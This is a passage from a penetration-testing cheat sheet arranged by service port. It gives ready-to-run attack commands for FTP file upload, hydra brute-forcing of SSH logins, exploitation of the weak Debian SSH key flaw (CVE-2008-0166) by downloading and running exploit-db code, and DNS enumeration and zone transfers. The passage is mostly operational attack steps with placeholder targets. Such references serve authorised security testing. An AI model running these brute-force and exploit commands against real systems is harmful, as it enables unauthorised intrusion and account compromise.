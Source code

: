 ```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```

------

## SSH - 22

### Brute force

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

### CVE-2008-0166

```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2
bunzip2 5622.tar.bz2
tar -xvf 5622.tar
python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
```

------

## DNS - 53

```
dnsenum <DOMAIN>
```

```
dnsrecon -d <DOMAIN>
```

### Zone transfert

```
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```

### DNS brute force

```
https://github.com/blark/aiodnsbrute
```
